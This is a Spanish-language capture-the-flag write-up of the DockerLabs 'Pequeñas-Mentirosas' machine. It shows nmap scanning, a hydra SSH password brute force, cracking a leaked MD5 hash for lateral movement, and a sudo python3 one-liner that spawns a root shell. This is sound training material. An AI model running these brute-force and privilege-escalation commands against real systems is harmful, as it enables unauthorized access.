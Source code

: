 ```yaml
---
title: DockerLabs - Pequeñas-Mentirosas
summary: "Write-up del laboratorio Pequeñas-Mentirosas de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, weak credentiales, credentials leaking, sudo]
media_subpath: "/assets/img/posts/dockerlabs_pequenas_mentirosas"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:47 GMT
Initiating ARP Ping Scan at 22:47
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 22:47, 0.08s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:47
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 22:47, 10.13s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -sCV -p22,80 172.17.0.2                                
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 22:48 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```
## análisis

En la pagina inicial del puerto 80 de la maquina nos encontramos con el siguiente mensaje, el cual nos da una pista de que es lo que debemos buscar:

![Desktop View](/20251027234902.webp){: width="972" height="589" .shadow}

Lo primero que intentamos es ver si a lo que se refieren con la pista es que debemos buscar un parámetro que, si le pasamos el carácter `a`, obtendríamos un resultado que nos permitiría seguir. Sin embargo, nos damos cuenta de que este no es el caso.

Por ello, lo siguiente es ver si `a` se trata de un usuario o una contraseña de SSH, que en este caso encontramos que se trata de un usuario:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ hydra -l a -P /usr/share/seclists/Passwords/rockyou.txt ssh://172.17.0.2 -t 64 -I
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-27 22:53:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-27 22:53:51
```

Nos conectamos con las credenciales obtenidas:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ ssh a@172.17.0.2                                                     
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:k21i9gNka9bAHgFRx7TjoBoqirDbAkhw/dp9dfTXRRs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
a@172.17.0.2's password: 
Linux 94ac483a3277 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
a@94ac483a3277:~$ whoami
a
```

Buscamos los ficheros que somos capaces de leer con el usuario actual, filtrando por lo que no nos interesa. De esta manera, encontramos algunos ficheros interesantes en la carpeta `/srv/ftp`:

```bash
a@94ac483a3277:/home$ find / -readable 2>/dev/null | grep -vE '/usr/share/zone|/proc|/sys/devices|/usr/include|/usr|/dev|/etc|/sys|/var|/run'
/
/home
/home/a
/home/a/.profile
/home/a/.bash_logout
/home/a/.bashrc
/home/spencer
/home/spencer/.profile
/home/spencer/.bash_logout
/home/spencer/.bashrc
/opt
/opt/challenges
/opt/scripts
/boot
/media
/tmp
/mnt
/srv
/srv/ftp
/srv/ftp/pista_fuerza_bruta.txt
/srv/ftp/cifrado_aes.enc
/srv/ftp/clave_publica.pem
/srv/ftp/hash_a.txt
/srv/ftp/mensaje_hash.txt
/srv/ftp/original_a.txt
/srv/ftp/mensaje_rsa.enc
/srv/ftp/retos.txt
/srv/ftp/hash_spencer.txt
/srv/ftp/retos_asimetrico.txt
/srv/ftp/clave_privada.pem
/srv/ftp/clave_aes.txt
/bin
/lib64
/lib
/sbin
/.dockerenv
/lib32
```

Los revisamos todos, y el que parece que puede servirnos es el `/srv/ftp/hash_spencer.txt`, ya que si obtenemos la contraseña del usuario `spencer`, podemos movernos lateralmente:

```bash
a@94ac483a3277:/home$ cat /srv/ftp/pista_fuerza_bruta.txt
Realiza un ataque de fuerza bruta para descubrir la contraseña de spencer...
a@94ac483a3277:/home$ cat /srv/ftp/mensaje_hash.txt
Descubre el hash y tendrás la clave...
a@94ac483a3277:/home$ cat /srv/ftp/cifrado_aes.enc
�a@94ac483a3277:/home$ cat /srv/ftp/clave_publica.pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArIk9pr+wSqiRQX/U29k0
kLYyLXlos5Phs7WyZK9LfDz/uBOCTBhBTMGjK5Op21Z9pszXJ6mgoreF/AW+xjTn
XDCh16kaIcACmp1nFOLn09snpk2s1h4cVJygGZmkHQg5rNMPdfn0rRmmnvgGCmim
oaubWuXYLn4Tu8GdRyAAj4P9hkZUMAQu9k1SpLRSIyVlcSisK/vBys8O05rZsZOg
0I7u2d+BuRYA8Px0qnxH1evx+Y3+oerN4823T6Vd+FqmfEHb7QUQ0EAZfJN3CFth
k9z7Q+AODqM5l8kYH2tEXk3xKQPo5qZlc6ep1tIHTERk3m0xEtE8LH157mkzbeli
VQIDAQAB
-----END PUBLIC KEY-----
a@94ac483a3277:/home$ cat /srv/ftp/hash_spencer.txt
7c6a****************************
```

Accedemos a [crackstation.net](crackstation.net) para ver si el hash pertenece a una contraseña conocida:

![Desktop View](/20251028000253.webp){: width="972" height="589" .shadow}

Con la credencial recién obtenida, probamos a conectarnos como `spencer`:

```bash
a@94ac483a3277:/home$ su spencer
Password: 
spencer@94ac483a3277:/home$ whoami
spencer
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `spencer`, y vemos que podemos ejecutar `python3` como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo -l
Matching Defaults entries for spencer on 94ac483a3277:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 94ac483a3277:
    (ALL) NOPASSWD: /usr/bin/python3
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) nos indican que podemos obtener una consola como el usuario `root` cuando tengamos permiso SUDO sobre `python`:

![Desktop View](/20251028000546.webp){: width="972" height="589" .shadow}

Ejecutamos el comando indicado, y ya tendríamos la consola como el usuario `root`:

```bash
spencer@94ac483a3277:/home$ sudo python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
```